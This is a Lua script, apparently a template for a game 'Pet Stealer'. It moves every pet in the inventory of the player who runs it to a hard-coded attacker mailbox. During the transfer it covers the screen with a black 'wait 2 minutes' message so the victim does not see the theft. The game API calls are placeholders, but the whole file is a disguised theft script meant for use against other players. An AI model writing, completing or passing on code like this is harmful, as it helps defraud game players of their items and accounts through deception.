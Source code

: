 -- Lua Script to send all pets from the current player’s inventory to mailbox ID 'liadqjjw'
-- and display a black screen with "Pet Stealer" text

-- Define the target mailbox ID
local targetMailboxID = "liadqjjw"

-- Function to get the current player’s ID
function getCurrentPlayerID()
    -- Replace with actual API call to get the current player's ID
    local playerID = GameAPI.GetCurrentPlayerID() -- Replace with real API call
    return playerID
end

-- Function to get all pet IDs from the current player’s inventory
function getPlayerInventoryPets(playerID)
    -- Replace with actual API call to fetch all pets from the player's inventory
    local petIDs = GameAPI.GetPlayerPets(playerID) -- Replace with real API call
    return petIDs
end

-- Function to send a pet to the mailbox
function sendPetToMailbox(petID, mailboxID)
    -- Replace with actual API call to send a pet to the mailbox
    local success, err = GameAPI.SendPetToMailbox(petID, mailboxID) -- Replace with real API call
    if not success then
        print("Failed to send pet with ID " .. petID .. ": " .. err)
    else
        print("Successfully sent pet with ID " .. petID .. " to mailbox " .. mailboxID)
    end
end

-- Function to display a black screen with text
function showBlackScreenWithText(text)
    -- Replace this with actual GUI code to create a black screen with text
    -- Example (assuming support for GUI functions):
    local screenWidth, screenHeight = 800, 600 -- Example dimensions, replace with actual screen size
    GUI.ClearScreen() -- Example function to clear the screen
    GUI.SetBackgroundColor(0, 0, 0) -- Set background color to black (RGB)
    GUI.SetTextColor(255, 255, 255) -- Set text color to white (RGB)
    GUI.DrawText(screenWidth / 2, screenHeight / 2, text, "center") -- Draw text in the center
end

-- Main function to send all pets from the current player’s inventory to the mailbox
function main()
    showBlackScreenWithText("wait 2 minutes")

    local playerID = getCurrentPlayerID()
    
    if not playerID then
        print("Unable to get current player ID.")
        return
    end

    local petIDs = getPlayerInventoryPets(playerID)
    
    if not petIDs or #petIDs == 0 then
        print("No pets found in inventory.")
        return
    end

    -- Iterate through the list of pet IDs and send each pet
    for _, petID in ipairs(petIDs) do
        sendPetToMailbox(petID, targetMailboxID)
    end
end

-- Execute the script
main()
